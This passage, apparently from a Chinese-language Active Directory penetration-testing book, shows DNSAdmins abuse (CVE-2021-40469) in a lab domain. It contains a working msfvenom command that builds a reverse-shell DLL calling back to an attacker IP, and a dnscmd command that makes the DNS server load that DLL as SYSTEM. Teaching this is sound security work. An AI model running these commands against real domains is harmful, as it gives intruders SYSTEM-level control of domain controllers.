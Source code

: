 下一个示例将演示如何仅通过成为*DNSAdmins*安全组的成员，实现在域控制器上以**SYSTEM**身份执行远程代码。

## DNSAdmins 滥用（CVE-2021-40469）

如果攻击者是*DNSAdmins*组的成员，则可以触发 DNS 服务器加载我们选择的 DLL 并在**SYSTEM**上下文下执行它。DLL 的路径在**ServerLevelPluginDll**值中提供，也可以是 UNC 路径。

注意

本发现的作者博客文章可以在这里找到：`medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83`。

为了演示这个技巧，我将把 jon.snow 用户添加到**north.sevenkingdoms.local**域的 DNSAdmins 组中。我们的利用路径是生成带有反向 Shell 的 DLL，并将其放置在**castelblack**服务器的**Public**共享文件夹中。然后，添加插件，等待 DNS 服务器重启，并在我们的 Kali 机器上获取反向 Shell：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.100 LPORT=443 -f dll > legit.dll
dnscmd.exe winterfell /Config /ServerLevelPluginDll \\castelblack\public\legit.dll
```

在 DNS 服务器重启后，我们获得了以**SYSTEM**身份在域控制器上执行的反向 Shell：

![图 6.28 – 成功利用 CVE-2021-40469，在域控制器上获得反向 Shell 并以 SYSTEM 身份执行](img/B18964_06_28.jpg)
